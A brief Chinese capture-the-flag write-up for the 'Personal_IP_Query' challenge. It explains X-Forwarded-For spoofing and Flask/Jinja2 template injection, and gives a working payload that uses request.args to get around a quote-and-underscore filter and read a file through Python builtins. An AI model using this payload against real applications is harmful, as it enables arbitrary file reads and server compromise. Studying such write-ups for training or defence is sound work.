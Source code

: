 # Personal_IP_Query 题目

## 考察知识点
- XFF IP 伪造
- Flask jinja2 SSTI
  
## 解题思路  
- 过滤了 " ' _
- 使用 flask 的 request.args 绕过
- payload
  - get数据
    - `http://127.0.0.1:5000/?class=__class__&base=__base__&subclasses=__subclasses__&builtins=__builtins__&globals=__globals__&init=__init__&catchwarnings=catch_warnings&name=__name__&filename=flag&readmodel=r`
  - XFF头中数据
    - `{% for c in [][request.args.class][request.args.base]request.args.subclasses %}{% if c[request.args.name]==request.args.catchwarnings %}{{ c[request.args.init][request.args.globals][request.args.builtins].open(request.args.filename, request.args.readmodel).read() }}{% endif %}{% endfor %}`